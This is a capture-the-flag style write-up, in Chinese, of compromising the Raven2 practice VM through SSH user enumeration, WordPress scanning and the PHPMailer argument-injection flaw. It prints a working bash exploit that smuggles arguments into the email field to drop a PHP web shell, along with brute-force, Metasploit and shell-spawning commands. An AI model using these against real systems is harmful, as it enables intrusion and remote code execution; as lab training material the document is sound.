 ```yaml
---
title: raven2（CVE-2016-10033）
categories:
- training
tags:
- training
---
```

```
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind 2-4 (RPC #100000)
```
## try1-ssh用户枚举
```
python ssh.py --userList /usr/share/wordlists/linux-user.txt --outputFile out.txt 192.168.2.133
cat out.txt | grep -v 'not' > name.txt
awk '{print $1}' name.txt > user.txt
```
获得的用户：
```
michael
steven
......
```
`hydra -L user.txt -P /usr/share/wordlists/rockyou.txt -I 192.168.2.133 ssh`

我猜弱口令应该已经修补了。但是还是得试一试，==，万一又有，我又没发现这么低级的漏洞，岂不是很没有面子。

## try2-web enum

方法：
`wpscan --url "http://192.168.2.133/wordpress/" --wp-content-dir "/wordpress" --enumerate u --enumerate p`

信息：
```
WordPress 4.8.7
Apache/2.4.10 (Debian)

后台：http://raven.local/wordpress/wp-login.php

192.168.2.133/vendor/changelog.md
PHPMailer 6.0
Version 5.2.17 (December 9th 2016)
```
```
searchsploit PHPMailer

PHPMailer < 5.2.20 with Exim MTA - Remote Code Execution                                                    | exploits/php/webapps/42221.py
```
searchsploit -m exploits/php/webapps/42221.py
```
  Exploit: PHPMailer < 5.2.20 with Exim MTA - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/42221/
     Path: /usr/share/exploitdb/exploits/php/webapps/42221.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /root/42221.py
```
see /root/42221.py
mv /root/42221.py rce_phpmailer_exim4.py
python rce_phpmailer_exim4.py -url http://192.168.2.133/ -cf contact.php -ip 192.168.2.133 
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-01/1.PNG)

--- 
时隔2个月，继续这个靶机的练习
192.168.241.128

command:
```
echo 192.168.241.128 raven.local >> /etc/hosts
wpscan --url "http://192.168.241.128/wordpress/" --wp-content-dir "/wordpress" --enumerate

```
## 存在的目录：
http://raven.local/vendor/changelog.md
http://raven.local/manual/en/index.html apache的目录

---

wordpress 4.8.7漏洞资料 
https://www.cvedetails.com/vulnerability-list/vendor_id-2337/product_id-4096/version_id-224338/Wordpress-Wordpress-4.8.html

CVE-2018-20148：PHP Object Injection via Meta Data

---

## info:
http://192.168.241.128/wordpress/?attachment_id=11
wpscan扫描了这个目录，获得flag3

http://raven.local/vendor/PATH
发现目录遍历，获得flag1

## 思路
无弱密码；有0day漏洞，但没有exp；无脆弱的wordpress插件

查看wp后，就是自己没有发现目录遍历漏洞=。=

http://raven.local/vendor/security.md 暗示了phpmailer插件版本漏洞

```
touch test.rc

use exploit/multi/http/phpmailer_arg_injection
set RHOST 192.168.241.128
set TARGETURI /contact.php
set WEB_ROOT /var/www/html/
run

msfconsole -r test.rc
反弹shell失败。。。
```
## exp.sh
```
#!/bin/bash

TARGET=http://raven.local/contact.php

DOCROOT=/var/www/html
FILENAME=backdoor.php
LOCATION=$DOCROOT/$FILENAME

STATUS=$(curl -s \
              --data-urlencode "name=Hackerman" \
              --data-urlencode "email=\"hackerman\\\" -oQ/tmp -X$LOCATION blah\"@badguy.com" \
              --data-urlencode "message=<?php echo shell_exec(\$_GET['cmd']); ?>" \
              --data-urlencode "action=submit" \
              $TARGET | sed -r '146!d')

if grep 'instantiate' &>/dev/null <<<"$STATUS"; then
  echo "[+] Check ${LOCATION}?cmd=[shell command, e.g. id]"
else
  echo "[!] Exploit failed"
fi
```
运行以上exp，成功获得一个webshell，权限为www-data

![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-01/2.PNG)

接下来用php反弹shell，如同[这篇文章](https://whale3070.github.io/training/2018/11/10/x/)

python -c 'import pty; pty.spawn("/bin/bash")'

![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-01/3.PNG)

之后，web目录泄露mysql密码，得到mysql普通权限。
然后上传udf源代码，执行安装，就可以使用do_system()函数，以root权限执行命令。
https://whale3070.github.io/training/2018/12/11/x/

## 总结
之前用searchsploit 找到了关于phpmailer的exp，php、bash、python的exp，都执行失败了。

看到过一个问题，**web渗透该如何继续提升？**除非遇到一样的web站点，该搞不下来的网站，还是搞不下来。

我认为应该用代码能力，写工具，尽可能扩大目标攻击面（只有知道，才能看到弱点），然后精力放在漏洞挖掘上。

而不是脚本小子运用已知exp对漏洞进行利用。

就好像我知道锁A、B、C，我有钥匙a，刚好Aa能配上，我就能进入系统。

经过验证，搞不下来的站点，除非有0day漏洞，那就证明了该站点很安全。

继续提升代码能力以及漏洞挖掘能力吧...